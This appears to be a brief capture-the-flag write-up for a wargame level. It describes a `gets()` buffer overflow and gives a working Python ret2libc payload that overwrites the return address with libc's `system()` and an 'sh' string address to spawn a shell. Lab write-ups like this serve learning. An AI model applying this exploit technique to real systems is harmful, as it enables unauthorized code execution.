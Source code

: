 # LEVEL 04

* after decompiling the binary:
	- we found a call to `gets()` in the child proccess.
		```c
		gets(buffer);
		```
	- we use it to overwrite `main()`'s return address with libc's `system()` address
and write as parameter "sh" string extracted from the read-only string ".gnu.hash".
 
* to exploit the vulnerability:
	- we need to execute:
		```shell
		(python -c 'from struct import *; print "a"*156 + pack("I", 0xf7e6aed0) + "aaaa" + pack("I", 0x8048312)' ; cat) | ./level04
		```
-----
### explinations:
- `0xf7e6aed0`: libc's `system()` address
- `0x8048312`: `"sh"` string address

